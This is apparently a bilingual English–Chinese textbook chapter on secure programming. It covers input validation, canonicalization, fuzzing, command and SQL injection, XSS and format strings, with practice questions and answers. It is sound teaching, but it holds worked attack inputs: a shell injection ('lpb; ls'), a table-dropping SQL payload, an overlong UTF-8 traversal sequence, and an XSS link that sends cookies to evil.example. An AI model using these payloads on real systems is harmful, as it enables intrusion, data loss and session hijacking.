Example (everyday): a form field was tested with names of 5 to 20 letters. A normal user never types 5,000 characters. An attacker does, because he looks for exactly the input that the tests never used.举个日常的例子：某个表单字段只用 5 到 20 个字母的名字做过测试。普通用户从不会输入 5,000 个字符，而攻击者会，因为他要找的正是测试从未用过的输入。
Defensive programming（防御式编程）is designing and writing software so that it keeps working under attack. It detects the bad conditions that an attack causes and either continues safely or fails gracefully. The key rule: never assume anything. Check every assumption and handle every error state. This costs code and run time, so security must be a design goal from the start.防御式编程是指在设计和编写软件时，使其在遭受攻击时仍能正常工作。它检测攻击所造成的异常情况，并且或者安全地继续运行，或者优雅地失败。核心原则是：绝不做任何假设。检查每一个假设，处理每一种错误状态。这会增加代码量和运行时开销，因此安全必须从一开始就作为设计目标。
A model of a program程序模型
A program reads input, processes it, and writes output, all under an operating system. Each part has its own typical flaws.程序在操作系统之上运行，读取输入，处理输入，并写出输出。每个部分都有各自典型的缺陷。
- Input: size and meaning of the data (overflow, injection, XSS).输入：数据的大小和含义（溢出、注入、XSS）。
- Processing: the algorithm, data types, memory and races.处理：算法、数据类型、内存和竞争。
- Interaction with the operating system and other programs: environment variables, privileges, shared and temporary files.与操作系统和其他程序的交互：环境变量、权限、共享文件和临时文件。
- Output: what another user's browser or terminal receives.输出：另一个用户的浏览器或终端收到的内容。
Many flaws are simply poor programming. The Common Weakness Enumeration (CWE) Top 25 list of 2022 sorts the most dangerous errors into three categories:许多缺陷只是编程质量差。2022 年的常见弱点枚举（CWE）Top 25 列表把最危险的错误分为三类：
| Category类别 | Idea核心思想 | Examples (2022 rank)示例（2022 年排名） |
|---|---|---|
| Insecure interaction between components组件间的不安全交互 | untrusted data passes between components不可信数据在组件之间传递 | XSS (2), SQL injection (3), improper input validation (4), OS command injection (6), CSRF (9)XSS（2）、SQL 注入（3）、输入验证不当（4）、操作系统命令注入（6）、CSRF（9） |
| Risky resource management资源管理不当 | memory or resources handled wrongly内存或资源处理不当 | out-of-bounds write (1) and read (5), use after free (7), path traversal (8), integer overflow (13), race condition (22)越界写（1）与越界读（5）、释放后使用（7）、路径遍历（8）、整数溢出（13）、竞争条件（22） |
| Porous defenses防御薄弱 | protection missing or weak防护缺失或薄弱 | improper authentication (14), hard-coded credentials (15), missing authorization (16)认证不当（14）、硬编码凭证（15）、缺少授权（16） |
Practice练习
Q1. (Concept) Distinguish software quality from software security and define defensive programming. Why does normal testing miss security bugs?Q1.（概念）区分软件质量与软件安全，并定义防御式编程。为什么常规测试会漏掉安全缺陷？
Answer
Quality and reliability deal with accidental failures caused by random, unanticipated input or use; they follow a probability distribution and are reduced by structured design and testing of likely inputs. In security the attacker chooses the distribution and targets specific bugs with inputs far from normal, for example a 5,000-byte name for a 1,024-byte buffer, which ordinary test inputs never contain. Defensive programming designs software to keep functioning, or to fail gracefully, under attack: never assume anything, check all assumptions, handle every error state.质量与可靠性关注的是由随机、未预料到的输入或使用所引起的偶发故障；它们服从某种概率分布，可以通过结构化设计以及针对常见输入的测试来降低。而在安全领域，攻击者选择分布，并以远离正常情况的输入针对特定缺陷，例如用一个 5,000 字节的名称去攻击 1,024 字节的缓冲区，而这类输入是普通测试输入从不包含的。防御式编程的目标是使软件在遭受攻击时仍能继续工作或优雅地失败：从不做任何假设，检查所有假设，处理每一种错误状态。
Q2. (Classify) Name the part of the program model (input, processing, OS interaction, output) and the CWE category for each flaw: (a) a form field is passed to a shell command; (b) a root program creates /tmp/x.<pid> after checking that the name is free; (c) a guestbook prints stored comments unchanged; (d) a public API returns customer records without authentication.Q2.（分类）对于每个缺陷，指出其所属的程序模型部分（输入、处理、操作系统交互或输出），以及对应的 CWE 类别：（a）表单字段被传递给 shell 命令；（b）一个以 root 身份运行的程序在检查名称未被占用之后创建 /tmp/x.<pid>；（c）留言簿原样打印已存储的评论；（d）一个公开 API 在未经身份认证的情况下返回客户记录。
Answer
(a) Input interpretation; insecure interaction between components (OS command injection). (b) Interaction with the OS (shared file system); risky resource management (race condition). (c) Output; insecure interaction between components (XSS). (d) Input side, since access is not checked; porous defenses (missing authentication for a critical function).（a）输入的解释；组件间的不安全交互（操作系统命令注入）。（b）与操作系统的交互（共享文件系统）；资源管理不当（竞争条件）。（c）输出；组件间的不安全交互（XSS）。（d）输入一侧，因为没有检查访问权限；防御薄弱（关键功能缺少身份认证）。
Handling program input ★★★处理程序输入
Goal. Explain the two concerns of input handling (size and meaning), apply allowlisting and canonicalization, compute what a signed or unsigned cast does to a length, and say what fuzzing can and cannot find.目标。 解释输入处理的两个关注点（大小和含义），应用白名单和规范化，计算有符号或无符号类型转换对长度产生的影响，并说明模糊测试能发现什么、不能发现什么。
Step 1: input has a size and a meaning第 1 步：输入有大小和含义
Program input（程序输入）is any data from outside the program whose value the programmer did not know when writing it: keyboard, files, network, command-line arguments, environment variables. Two concerns apply.程序输入是指来自程序外部的任何数据，编写程序时程序员无法知道其具体取值，例如键盘输入、文件、网络数据、命令行参数和环境变量。这里有两个问题需要关注。
- Size. Programmers assume short input and allocate a fixed buffer of 512 or 1,024 bytes. Longer input overflows it (Chapter 14). Safe code uses a buffer that grows, or reads in blocks and discards the excess.大小。程序员通常假设输入很短，于是分配一个固定的 512 或 1,024 字节的缓冲区。更长的输入会使它溢出（见第 14 章）。安全的代码应使用可以动态增长的缓冲区，或者分块读取并丢弃多余的部分。
- Meaning. Binary input such as a protocol header must be checked against its specification. Textual input is decoded with a character set, and then its meaning (integer, file name, URL) is confirmed.含义。二进制输入（例如协议首部）必须对照其规范进行检查。文本输入先用字符集解码，然后确认它的含义（整数、文件名、URL）。
Example for binary input: Heartbleed（心脏出血）. The code trusted the length field of a request instead of the data really supplied. The reply leaked up to 64 KiB of nearby memory. It is a buffer over-read.二进制输入的例子：Heartbleed 漏洞。代码信任请求中的长度字段，而不是实际提供的数据。应答会泄露附近最多 64 KiB 的内存。这是一种缓冲区过度读取。
Step 2: allowlist, not denylist第 2 步：用白名单，而不是黑名单
In words: an allowlist accepts only what is wanted, a denylist rejects only what is known to be bad, and the second always falls behind.用文字表述：白名单只接受需要的输入，黑名单只拒绝已知的坏输入，而黑名单总是落后。
Compare the input with what is wanted and accept only that: allowlisting. Denylisting（黑名单）compares it with known bad values. It fails, because new bad values and new encodings keep appearing. The comparison is usually a regular expression（正则表达式）. Input that does not match is rejected, or altered by escaping its metacharacters so that they lose their special meaning.把输入与需要的内容进行比较，只接受符合要求的输入，这就是白名单。黑名单则是把输入与已知的坏值进行比较。它会失效，因为新的坏值和新的编码不断出现。比较通常使用正则表达式。不匹配的输入会被拒绝，或者通过对其元字符进行转义而改写，使它们失去特殊含义。
Step 3: several encodings and canonicalization第 3 步：多种编码与规范化
One character can have several encodings: HTML entities, and UTF-8, which uses 1 to 4 bytes per character. Only the shortest form is valid, but many decoders also accept longer overlong forms. A two-byte sequence has the form 110xxxxx 10xxxxxx and carries 11 payload bits.同一个字符可以有多种编码，例如 HTML 实体，以及 UTF-8（每个字符使用 1 到 4 个字节）。只有最短的形式是合法的，但许多解码器也接受更长的超长形式。两字节序列的形式为 110xxxxx 10xxxxxx，承载 11 个有效数据位。
The slash / is 2F in ASCII and UTF-8. It is also C0 AF and E0 80 AF. A filter that rejects names with ../ by looking for the byte 2F is bypassed by the overlong form. This flaw hit several versions of Microsoft IIS.斜杠 / 在 ASCII 和 UTF-8 中是 2F，它的超长形式还有 C0 AF 和 E0 80 AF。如果过滤器通过查找字节 2F 来拒绝包含 ../ 的文件名，超长形式就能绕过它。这个缺陷影响过多个版本的 Microsoft IIS。
In words: canonicalization = first turn the input into one standard shortest form, and only then compare it with the allowlist.用文字表述：规范化 = 先把输入转换成唯一的标准最短形式，然后才与白名单比较。
Canonicalization（规范化）decodes entities and rejects overlong sequences. Anti-XSS libraries and web frameworks automate it.规范化会解码实体，并拒绝超长序列。防 XSS 库和 Web 框架会自动完成这一步。
Step 4: numbers and casts第 4 步：数字与类型转换
In words: a length checked as signed and used as unsigned can pass the check and still be huge.用文字表述：按有符号数检查的长度，如果被当作无符号数使用，检查可以通过，但它的值仍然可能非常大。
Example (an everyday picture): a speedometer that shows −16 km per hour is below every speed limit. Used as an unsigned copy size, the same bits mean 65,520 bytes.举个日常的例子：一个显示 −16 km/h 的速度表，低于任何限速。同样的位模式如果当作无符号的复制长度，就表示 65,520 字节。
Step 5: fuzzing第 5 步：模糊测试
Fuzzing（模糊测试）tests a program with randomly generated input and watches for crashes or other abnormal behaviour. Any such failure is a bug. Targets: text input, network requests, command-line arguments, file formats, library calls.模糊测试用随机生成的输入测试程序，并观察是否出现崩溃或其他异常行为。任何此类故障都是一个缺陷。测试对象包括：文本输入、网络请求、命令行参数、文件格式和库函数调用。
| Random fuzzing随机模糊测试 | |
|---|---|
| Advantages优点 | Simple and cheap. Needs no assumption about the expected input. Finds reliability bugs as well as security bugs简单且成本低。无需假设预期的输入。既能发现可靠性缺陷，也能发现安全缺陷 |
| Limits局限 | Finds only fairly simple faults. A bug behind a few exact values is unlikely to be found只能发现较简单的故障。隐藏在少数几个精确取值背后的缺陷不太可能被发现 |
| Template-based input基于模板的输入 | Very long strings or protocol-aware messages find likely bugs sooner. It embeds the tester's assumptions, so both kinds are combined超长字符串或感知协议的消息能更快发现可能存在的缺陷。但它内嵌了测试者的假设，因此两种方法结合使用 |
Attackers fuzz too, so developers must do it first.攻击者也会做模糊测试，因此开发者必须抢先进行。
Example: one exact 32-bit value at \(10^6\) tests per second needs \(2^{32}=4{,}294{,}967{,}296\) tests, which is about 4,295 s, or 71.6 minutes.举例：以每秒 \(10^6\) 次测试的速度，找出一个精确的 32 位取值需要 \(2^{32}=4{,}294{,}967{,}296\) 次测试，约 4,295 秒，即 71.6 分钟。
Practice练习
Q1. (Calculation) A server reads a 16-bit length len = 0xFFF0 as a signed short, checks len < 512, then copies len bytes (converted to unsigned) into a 512-byte buffer. (a) What is the signed value? (b) Does the check pass? (c) How many bytes are copied, and by how much does that exceed the buffer? (d) How is it fixed?Q1.（计算）服务器将 16 位长度 len = 0xFFF0 读取为有符号 short，检查 len < 512，然后把 len 字节（转换为无符号数）复制到一个 512 字节的缓冲区中。（a）有符号值是多少？（b）检查是否通过？（c）复制了多少字节，超出缓冲区多少？（d）应如何修复？
Answer
(a) 0xFFF0 = 65,520, which is at least \(2^{15}\), so \(s=65520-65536=-16\). (b) \(-16<512\), so the check passes. (c) Converted to unsigned, the length is 65,520 bytes, which is 65,520 − 512 = 65,008 bytes more than the buffer holds. (d) Use an unsigned type for lengths, compare with the maximum as unsigned (reject negative values if a signed type must stay), and use a bounded copy.（a）0xFFF0 = 65,520，它至少为 \(2^{15}\)，因此 \(s=65520-65536=-16\)。（b）\(-16<512\)，因此检查通过。（c）转换为无符号数后，长度为 65,520 字节，比缓冲区所能容纳的多 65,520 − 512 = 65,008 字节。（d）长度应使用无符号类型，并以无符号方式与最大值比较（若必须保留有符号类型，则拒绝负值），并使用有界复制。
易错：检查时按有符号数，使用时按无符号数，同一串比特被解释了两次。
Q2. (Trace) (a) Write the two-byte overlong UTF-8 encoding of . (0x2E). (b) Explain how C0 AE C0 AE C0 AF defeats a filter that rejects names containing ../, and give the fix.Q2.（手工演算）（a）写出 .（0x2E）的两字节超长 UTF-8 编码。（b）解释 C0 AE C0 AE C0 AF 如何绕过一个拒绝包含 ../ 的名称的过滤器，并给出修复方法。
Answer
(a) 0x2E = 0101110; as 11 payload bits it is 00000 101110, so the two-byte form 110xxxxx 10xxxxxx is 11000000 10101110 = C0 AE. (b) The sequence is ../ in overlong form. A filter that searches for the bytes 2E 2E 2F finds nothing, but a lenient decoder later turns the sequence into ../ and the path leaves the allowed directory. Fix: canonicalize first (decode, reject overlong or invalid UTF-8), then validate against an allowlist of acceptable names.（a）0x2E = 0101110；以 11 位有效数据位表示为 00000 101110，因此两字节形式 110xxxxx 10xxxxxx 为 11000000 10101110 = C0 AE。（b）该序列以超长形式表示 ../。一个只查找字节 2E 2E 2F 的过滤器什么也找不到，但宽松的解码器随后会把该序列转换为 ../，路径便离开了允许的目录。修复方法：先规范化（解码，拒绝超长或无效的 UTF-8），然后再依据可接受名称的白名单进行验证。
Q3. (Calculation) A bug is triggered only when a 32-bit field equals one exact value. A fuzzer sends uniformly random 32-bit values at \(10^6\) per second. (a) Expected number of tests and time? (b) The same for a 64-bit field. (c) What does this say about random fuzzing?Q3.（计算）只有当一个 32 位字段恰好等于某个确定的值时，缺陷才会被触发。模糊器每秒发送 \(10^6\) 个均匀随机的 32 位值。（a）期望的测试次数和时间各是多少？（b）对于 64 位字段，情况如何？（c）这对随机模糊测试说明了什么？
Answer
(a) \(p=2^{-32}\), so \(E[T]=2^{32}=4{,}294{,}967{,}296\) tests, which takes 4,295 s, about 71.6 minutes. (b) \(2^{64}\approx1.84\times10^{19}\) tests, about \(1.84\times10^{13}\) s, roughly 585,000 years. (c) Random fuzzing finds bugs triggered by broad classes of input (very long strings, a set top bit) but not bugs behind one exact value; templates, protocol knowledge or code review are needed.（a）\(p=2^{-32}\)，因此需要 \(E[T]=2^{32}=4{,}294{,}967{,}296\) 次测试，耗时 4,295 s，约 71.6 分钟。（b）需要 \(2^{64}\approx1.84\times10^{19}\) 次测试，约 \(1.84\times10^{13}\) s，大约 585,000 年。（c）随机模糊测试能够发现由大类输入触发的缺陷（超长字符串、最高位被置位），但无法发现由某个确定值才能触发的缺陷；此时需要模板、协议知识或代码审查。
Injection attacks ★★★注入攻击
Goal. Define an injection attack, walk through a command injection, a SQL injection and a code injection with one concrete input each, and name the defences.目标。 定义注入攻击，对命令注入、SQL 注入和代码注入各用一个具体的输入逐步演示，并说出相应的防御措施。
Step 1: what an injection is第 1 步：什么是注入
In words: injection = the program glues user data into a command, and the interpreter cannot tell which part is data.用文字表述：注入 = 程序把用户数据拼接到命令中，而解释器分不清哪一部分是数据。
An injection attack（注入攻击）is a flaw in input handling where data change the flow of execution. The input is passed to another program, interpreter or service (shell, database, script engine, mail program), which treats it as commands. The special characters are its metacharacters（元字符）: semicolon, pipe and backquote for the shell, the quote for SQL, angle brackets for HTML, the percent sign for printf.注入攻击是输入处理中的一种缺陷，数据会改变程序的执行流程。输入被传给另一个程序、解释器或服务（如 shell、数据库、脚本引擎、邮件程序），它们会把输入当作命令来执行。其中的特殊字符称为元字符：对 shell 来说是分号、管道符和反引号，对 SQL 来说是引号，对 HTML 来说是尖括号，对 printf 来说是百分号。
| Variant变体 | Interpreter that runs the input执行输入的解释器 | Typical flaw典型缺陷 | Main defences主要防御措施 |
|---|---|---|---|
| Command injection命令注入 | shell, with the web server's privilegesshell，以 Web 服务器的权限运行 | command line built from a form field由表单字段构造的命令行 | allowlist; avoid the shell (pass an argument list); least privilege白名单；避免使用 shell（传递参数列表）；最小权限 |
| SQL injectionSQL 注入 | database engine数据库引擎 | query built by string concatenation (Section 16.2)通过字符串拼接构造的查询（见第 16.2 节） | placeholders (parameterized queries), stored procedures, escaping占位符（参数化查询）、存储过程、转义 |
| Code injection代码注入 | script engine or library脚本引擎或库 | input selects code to load or run输入决定要加载或运行的代码 | constant include names; no remote includes; patchinginclude 名称使用常量；禁止远程包含；及时打补丁 |
Step 2: command injection第 2 步：命令注入
A Perl script on a web server shows details of a user. It runs the UNIX finger command with the text of a form field:网络服务器上有一个 Perl 脚本用于显示某个用户的详细信息。它用表单字段的文本运行 UNIX 的 finger 命令：
$user = $q->param("user"); # value of the form field
print `/usr/bin/finger -sh $user`; # the text goes to the shell
- The attacker types
lpband gets the normal result.攻击者输入lpb，得到正常结果。 - The attacker types
lpb; ls.攻击者输入lpb; ls。 - The shell sees two commands,
finger -sh lpbandls, and runs both.shell 看到两条命令，即finger -sh lpb和ls，并把两条都运行了。 - They run with the web server's privileges, so any command could be run.它们以网络服务器的权限运行，因此可以运行任何命令。
The same text typed by a local user gains nothing. The web interface is what exposes the command to remote users under the server's identity. The fix states the assumption (a user name has only word characters) and tests it:本地用户输入同样的文本并无收益。是网页界面使远程用户能够以服务器的身份执行这条命令。修复时要写明假设（用户名只包含单词字符），并对其进行测试：
# ^ start of input, \w+ one or more letters, digits or underscores, $ end of input
die "The specified user contains illegal characters!" unless ($user =~ /^\w+$/);
Step 3: SQL injection第 3 步：SQL 注入
A PHP script builds a query from a name:一段 PHP 脚本根据姓名构造查询：
$query = "SELECT * FROM suppliers WHERE name = '" . $name . "';";
With Bob the query is correct. If the name is Bob'; drop table suppliers, the quote ends the string and the rest is read as SQL:输入 Bob 时，查询是正确的。如果姓名是 Bob'; drop table suppliers，引号就会结束字符串，后面的部分会被当作 SQL 读取：
name = Bob SELECT * FROM suppliers WHERE name = 'Bob';
name = Bob'; drop table suppliers SELECT * FROM suppliers WHERE name = 'Bob'; drop table suppliers';
The record is retrieved and then the whole table is deleted. Defences: validate the input; escape the metacharacters (for example mysql_real_escape_string in PHP); best of all, use placeholders（占位符）. With a parameterized query the SQL text is fixed and the value is sent separately, so it can never become SQL. Section 16.2 treats SQL injection in full.先取出记录，然后整张表被删除。防御措施：验证输入；对元字符转义（例如 PHP 中的 mysql_real_escape_string）；最好的办法是使用占位符。使用参数化查询时，SQL 文本是固定的，值单独发送，因此它永远不会变成 SQL 语句。第 16.2 节会全面讨论 SQL 注入。
Step 4: code injection第 4 步：代码注入
include $path . 'functions.php';
include $path . 'data/prefs.php';
The variable $path should be set by the main script. Two PHP features allow an attack. Older PHP copied every request field into a global variable of the same name, so the client can set $path. And include accepts a URL, so the server fetches and runs the attacker's code with the web server's privileges. This is PHP remote code injection. Defences: do not map request fields to global variables (the default in newer PHP); use only constant names in include and require, or validate the variable just before use. Example from 2021: the Log4j library read a lookup reference inside logged text and ran code fetched from the attacker's server.变量 $path 本应由主脚本设置。有两个 PHP 特性会被用来发起攻击。旧版 PHP 会把每个请求字段复制为同名的全局变量，因此客户端可以设置 $path。另外，include 接受一个 URL，于是服务器会取回并运行攻击者的代码，而且是以 Web 服务器的权限运行。这就是 PHP 远程代码注入。防御措施：不要把请求字段映射为全局变量（这是新版 PHP 的默认设置）；在 include 和 require 中只使用常量名，或者在使用前立即验证该变量。2021 年的一个例子：Log4j 库会读取日志文本中的查找引用，并运行从攻击者服务器上获取的代码。
Practice练习
Q1. (Compare) State the similarities and differences between command injection and SQL injection.Q1.（比较）说明命令注入与 SQL 注入之间的相同点和不同点。
Answer
Similarities: both build a string from program text and untrusted input and pass it to an interpreter, which cannot tell the two apart; metacharacters in the input change the meaning; both are prevented by validating input (allowlist), by escaping, and by running with least privilege. Differences: the interpreter (a shell versus a database engine), the metacharacters (semicolon, pipe, backquote versus quote and comment markers), the damage (arbitrary commands with the server's privileges versus reading, changing or deleting data with the database account's rights), and the specific defence (calling programs without a shell versus parameterized queries).相同点：两者都由程序文本和不可信输入拼接出一个字符串，并将其交给解释器，而解释器无法区分二者；输入中的元字符会改变含义；两者都可以通过验证输入（白名单）、转义以及以最小权限运行来防范。不同点：解释器不同（shell 与数据库引擎）、元字符不同（分号、管道符、反引号与引号和注释标记）、造成的损害不同（以服务器权限执行任意命令，与以数据库账户权限读取、修改或删除数据），以及具体的防御措施不同（不经过 shell 调用程序与参数化查询）。
Q2. (Design) A script runs ping -c 1 HOST through the shell, with HOST taken from a form field. (a) Why is it vulnerable? (b) Give three layers of defence. (c) Why is removing semicolons not enough?Q2.（设计）一个脚本通过 shell 运行 ping -c 1 HOST，其中 HOST 取自表单字段。（a）它为什么存在漏洞？（b）给出三层防御措施。（c）为什么仅删除分号是不够的？
Answer
(a) HOST goes to the shell unchanged: 8.8.8.8; ls makes the shell run two commands with the web server's privileges. (b) Allowlist: accept only a host name or address pattern such as ^[A-Za-z0-9][A-Za-z0-9.-]{0,252}$. Avoid the shell: start ping with an argument vector so HOST is one argument. Run the script under an unprivileged account. (c) The shell has more metacharacters (pipe, ampersand, backquote, command substitution, newline, redirection); a denylist misses one sooner or later, an allowlist cannot.（a）HOST 未经处理便被传给 shell：8.8.8.8; ls 使 shell 以 Web 服务器的权限运行两条命令。（b）白名单：只接受主机名或诸如 ^[A-Za-z0-9][A-Za-z0-9.-]{0,252}$ 之类的地址模式。避免使用 shell：以参数向量方式启动 ping，使 HOST 成为一个参数。以无特权账户运行该脚本。（c）shell 的元字符更多（管道符、与号、反引号、命令替换、换行符、重定向）；黑名单迟早会漏掉其中一个，而白名单则不会。
Beyond the pages: the pattern starts with a letter or digit because a value beginning with a hyphen would be read by ping as an option; even without a shell, data can be misread as control.教材之外的补充：该模式以字母或数字开头，是因为以连字符开头的值会被 ping 当作选项读取；即使没有 shell，数据也可能被误读为控制信息。
Q3. (True or false) "With parameterized queries the application no longer needs to validate input." Justify.Q3.（判断）“使用参数化查询后，应用就不再需要验证输入。”判断其正误，并说明理由。
Answer
False. Placeholders stop a value from being parsed as SQL, but they do not check type, length or business rules; identifiers such as table names or sort order cannot be bound as parameters and must be checked against an allowlist; and a stored value printed later into a web page still needs output encoding (stored XSS).错误。占位符可以防止值被解析为 SQL，但它们并不检查类型、长度或业务规则；表名或排序方式等标识符无法作为参数绑定，必须通过白名单检查；此外，之后被打印到网页中的已存储值仍然需要输出编码（存储型 XSS）。
Cross-site scripting and safe output ★★★跨站脚本与安全输出
Goal. Explain why cross-site scripting works, trace a reflected and a stored attack with one input each, compare the two, and give the defences.目标。 解释跨站脚本攻击为什么会成功，分别用一个输入逐步演示反射型攻击和存储型攻击，比较两者，并给出防御措施。
Step 1: why XSS works第 1 步：XSS 为什么能成功
In words: XSS = the vulnerable site hands the attacker's script to other users, and their browsers run it as if the site had written it.用文字表述：XSS = 有漏洞的网站把攻击者的脚本交给其他用户，用户的浏览器会像网站自己写的一样运行它。
In a cross-site scripting (XSS)（跨站脚本）attack the attacker gets script into a page that the vulnerable site sends to other users. The browser trusts everything from one origin equally, so the script runs with the site's privileges. The victim is the site's user, not the server. The site failed to validate its input and to sanitize its output.在跨站脚本（XSS）攻击中，攻击者把脚本放进有漏洞的网站发给其他用户的页面中。浏览器会同等信任来自同一源的所有内容，因此这段脚本会以该网站的权限运行。受害者是网站的用户，而不是服务器。网站既没有验证输入，也没有对输出做净化。
The same-origin policy does not help. The script comes from the vulnerable site itself, so it has that site's origin. A script can:同源策略无法起到防护作用。脚本来自有漏洞的网站本身，因此它具有这个网站的源。脚本可以：
- send the session cookie to the attacker, who then impersonates the user (session hijacking);把会话 Cookie 发送给攻击者，攻击者随后冒充这名用户（会话劫持）；
- read or change the page;读取或修改页面；
- send requests as the user;以用户本人的身份发送请求；
- redirect the user to a fake page.把用户重定向到假页面。
Step 2: reflected and stored XSS第 2 步：反射型和存储型 XSS
| Reflected（反射型） | Stored（存储型） | |
|---|---|---|
| Payload lives in载荷存在于 | the request (URL parameter, form field), echoed in the very next response请求中（URL 参数、表单字段），并在紧接着的响应中回显 | the server's storage (database, file), served to every visitor服务器的存储（数据库、文件），提供给每一位访问者 |
| Attacker must攻击者必须 | lure the victim to a crafted link (e-mail, forum post)诱使受害者点击经过精心构造的链接（电子邮件、论坛帖子） | submit the data once提交一次数据 |
| Typical place典型位置 | search box, error message, "you searched for ..."搜索框、错误信息、“你搜索的是……” | guestbook, wiki, blog comment, profile field留言簿、维基、博客评论、个人资料字段 |
A third kind, DOM-based XSS, arises when the page's own client-side script writes untrusted data into the page. The server may never see the payload.第三种是基于 DOM 的 XSS，它出现在页面自己的客户端脚本把不可信的数据写入页面时。服务器可能从未看到这段载荷。
Reflected, step by step. Example: a shop page prints You searched for: and then the query, unencoded.反射型，分步说明。 例子：一个商店页面会原样输出 You searched for: 以及查询内容，没有做任何编码。
- The attacker builds the link
http://shop.example/search?q=<script>document.location='http://evil.example/?c='+document.cookie</script>.攻击者构造链接http://shop.example/search?q=<script>document.location='http://evil.example/?c='+document.cookie</script>。 - The attacker sends the link to a victim, for example by e-mail.攻击者把链接发给受害者，例如通过电子邮件。
- The victim clicks. The server puts the query into the page unchanged.受害者点击链接。服务器把查询内容原样放入页面。
- The victim's browser sees a script element in a page from
shop.exampleand runs it. The session cookie goes toevil.example.受害者的浏览器看到来自shop.example的页面中有一个脚本元素，于是运行它。会话 Cookie 被发送到evil.example。
Stored, step by step. Example: a guestbook saves comments and shows them to all visitors.存储型，分步说明。 例子：一个留言簿保存评论，并把它们展示给所有访客。
- The attacker posts the comment
Great post! <script>alert(1)</script>. The application saves it unchecked.攻击者发表评论Great post! <script>alert(1)</script>。应用程序未经检查就把它保存下来。 - Every later visitor receives the comment inside the page.之后每位访客都会在页面中收到这条评论。
- Each browser runs the script, which could send that visitor's cookie to the attacker.每个浏览器都会运行这段脚本，它可能把这位访客的 Cookie 发送给攻击者。
The output with and without encoding:有编码和无编码时的输出对比：
stored comment: Great post! <script>alert(1)</script>
raw output: Great post! <script>alert(1)</script> the browser runs the script
encoded output: Great post! <script>alert(1)</script> the browser shows the text
Step 3: the defences第 3 步：防御措施
- Validate input with an allowlist, after canonicalization (Section 15.2).验证输入：在规范化之后，用白名单进行验证（见第 15.2 节）。
- Encode output for the place where the data are put. This is the primary defence. In HTML text replace
&,<and>by&,<and>. Encode&first, or the new entities are encoded again. In a quoted attribute also encode the quotes. For JavaScript, URL and CSS use the escaping of that language.对输出编码，编码方式取决于数据所在的位置。这是最主要的防御措施。在 HTML 文本中，把&、<和>分别替换为&、<和>。必须先编码&，否则新生成的实体会被再次编码。在带引号的属性中，还要对引号进行编码。对于 JavaScript、URL 和 CSS，则使用这门语言自身的转义方式。 - Filter untrusted content. The simplest filter removes all markup. To allow formatting, pass only an allowlisted subset of tags.过滤不可信内容。最简单的过滤是删除所有标记。如果要允许格式设置，则只放行白名单中的部分标签。
- Specify the character set in the Content-Type header. Otherwise browsers guess, and a guess that differs from the filter's assumption can subvert it.在 Content-Type 首部中指定字符集。否则浏览器会自行猜测，而猜测的结果如果与过滤器的假设不一致，就可能使过滤失效。
Damage limits, which do not replace output encoding: HttpOnly cookies cannot be read by script, so cookie theft fails (the script can still send requests that carry the cookie). A Content Security Policy lists the origins that scripts may come from and blocks inline scripts.以下措施可以限制损害，但不能替代输出编码：设置了 HttpOnly 标志的 Cookie 无法被脚本读取，因此窃取 Cookie 的攻击失效（不过脚本仍然可以发送携带这个 Cookie 的请求）。内容安全策略列出脚本允许来自的源，并阻止内联脚本。
XSS is one case of a general output problem. A program may relay data from one user to another, while users assume that everything shown came from the program itself.XSS 只是一般输出问题中的一种情形。程序可能会把数据从一个用户转发给另一个用户，而用户却以为页面上显示的一切都来自程序本身。
Practice练习
Q1. (Compare) Compare reflected and stored XSS. Which is usually more dangerous, and why?Q1.（比较）比较反射型与存储型 XSS。通常哪一种更危险？为什么？
Answer
Reflected: the payload is in the request (a URL parameter) and the server echoes it in the next response; the attacker must lure each victim to a crafted link, and only those users are hit. Stored: the payload is saved (comment, profile field) and served to every later visitor, so the attacker submits it once. Stored XSS is usually worse: no lure is needed, many users (administrators too) are affected, and it persists until removed. Both run with the vulnerable site's privileges.反射型：载荷位于请求中（URL 参数），并由服务器在紧接着的响应中回显；攻击者必须诱使每个受害者点击精心构造的链接，因此只有这些用户会受到影响。存储型：载荷被保存（如评论、个人资料字段）并提供给之后的每一位访问者，因此攻击者只需提交一次。存储型 XSS 通常更为严重：无需诱导，许多用户（包括管理员）都会受到影响，并且会一直存在直至被删除。两者都以存在漏洞的网站的权限运行。
Q2. (Trace) A search page prints You searched for: followed by the query, without encoding. (a) Which XSS type is it? (b) Give the correctly encoded output for the query <b>5 > 3 & 2 < 4</b>. (c) Why is & encoded first?Q2.（手工演算）搜索页面未经编码便输出 You searched for: 以及查询内容。（a）这是哪种 XSS？（b）给出对查询 <b>5 > 3 & 2 < 4</b> 正确编码后的输出。（c）为什么要先对 & 编码？
Answer
(a) Reflected XSS: the payload comes in the request and is echoed at once. (b) <b>5 > 3 & 2 < 4</b>; the browser then shows the text instead of treating it as markup. (c) If & were encoded last it would also change the ampersands of the entities just produced, giving &lt; (double encoding), which the browser displays as the literal text <.（a）反射型 XSS：载荷来自请求，并被立即回显。（b）<b>5 > 3 & 2 < 4</b>；随后浏览器会显示该文本，而不是将其当作标记来处理。（c）若 & 最后才被编码，它还会改写刚刚生成的实体中的与号，得到 &lt;（双重编码），浏览器会把它显示为字面文本 <。
Q3. (Explain) Why does the same-origin policy not stop XSS, and why does an HttpOnly cookie not make a site immune?Q3.（解释）为什么同源策略无法阻止 XSS？为什么带有 HttpOnly 属性的 Cookie 也不能使网站免受攻击？
Answer
The policy separates different origins, but the injected script is delivered by the vulnerable site itself, so the browser gives it that site's origin and access. HttpOnly only stops the script from reading the cookie value; the script can still send requests that carry the cookie, change the page or show a fake login form. Output encoding removes the cause; HttpOnly limits the damage.同源策略区分不同的源，但注入的脚本是由存在漏洞的网站本身交付的，因此浏览器会赋予它该网站的源和访问权限。HttpOnly 仅能阻止脚本读取 Cookie 的值；脚本仍然可以发送携带该 Cookie 的请求、修改页面或显示伪造的登录表单。输出编码消除了根本原因；HttpOnly 则限制了损害。
Format-string vulnerabilities ★★★格式化字符串漏洞
Goal. Explain why printf(buf) is dangerous, say what %x, %s and %n do with a small example each, trace the output, and give the fix and further defences.目标。 解释 printf(buf) 为什么危险，用一个小例子说明 %x、%s 和 %n 各自的作用，跟踪输出结果，并给出修复方法和进一步的防御措施。
Step 1: the vulnerable pattern第 1 步：有漏洞的写法
In words: the user's text becomes the format, so the user decides how many stack words printf reads and what it does with them.用文字表述：用户的文本变成了格式串，因此用户决定 printf 读取多少个栈上的字，以及如何处理它们。
A format-string vulnerability（格式化字符串漏洞）, a form of injection, appears when user-controlled data is used as the format itself:当用户可控的数据被直接用作格式串本身时，就会出现格式化字符串漏洞，它是注入的一种形式：
fgets(buf, sizeof buf, stdin);
printf(buf); /* unsafe: the user controls the format string */
printf("%s", buf); /* safe: constant format, buf is only data */
